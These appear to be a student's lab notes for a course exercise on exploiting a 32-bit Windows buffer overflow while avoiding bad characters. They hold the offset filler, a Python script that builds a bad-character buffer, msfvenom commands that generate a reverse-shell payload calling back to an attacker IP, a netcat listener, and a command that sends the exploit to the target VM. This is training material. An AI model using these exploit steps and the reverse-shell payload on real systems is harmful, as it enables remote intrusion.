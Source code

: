 
###### 11.2.8.3
So you can generate shellcode, but can you generate shellcode that will work in a real program?  
This time, you will need to both generate the shellcode as well as test that shellcode for bad characters to make sure it will execute as you expect.  
The _bad-characters-1_ program also **takes shellcode as input**, but it is a little more finicky;  
the binary seems to be **removing some specific characters** from the buffer stored before executing the _**CALL EBX**_ **which executes your payload**.  
To assist with testing and practice on your Windows client, you can download **bad-characters-windows-1.exe** from the VM #1 web server on port 80.  
Once ready, **connect to VM #1 port 4444 via netcat** and get a shell by sending a **raw 32-bit msfvenom-generated reverse-shell payload** that does not contain the specified bad characters.  
Then read _flag.txt_ to get the flag.


###### Find EIP & filler:
	--- **msfvenom-pattern_create** didn't work. Had to manually use binary tree analysis  
  
filler = ‘A’ * 2196  
eip = ‘B’ * 4  
  
buffer = filler + eip + .......  
  

###### Find bad characters:

Generate raw characters:
```bash
python2 -c "print ''.join([chr(i) for i in range(1,256)])" > exploit.txt
```
 
 **OR**

```python
!#/usr/bin/env python2.7  
  
shellcode = (  
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"  
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"  
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"  
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"  
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"  
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"  
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"  
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"  
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"  
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"  
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"  
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"  
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"  
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"  
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"  
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")  
  
filler = 'A' * 2196  
eip = 'B' * 4  
buffer = filler + eip + shellcode + '\n'  
with open("exploit.txt", 'wt') as f:  
    f.write(buffer)
```
	python2 script can be used to convert **msfvenom -f c** to raw

*If download exploit on Win & it doesn't have the **.txt**, don't add an extension as it messes things up.
  
Send bad char exploit.txt to Win & open app w/ Immunity.  
Search for bad chars.  
  
Search for JMP ESP for eip  
  
  
Generate shellcode:  
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.156 LPORT=443 EXITFUNC=thread -f raw -e x86/shikata_ga_nai -b "<bad chars>" > shellcode
```

```bash
msfvenom -p windows/exec CMD="cmd.exe" EXITFUNC=thread -f raw -b "<bad chars>" > shellcode
```

 
*IF using **-f c**, convert to raw w/ above ^^ python script  
 
Start up listener (when using **shell_reverse_tcp**):
```bash
nc -nlvp 443
```


Connect to target vm & send shellcode:
```bash
cat exploit.txt - | nc 192.168.156.10 4444  
Ctrl + C
```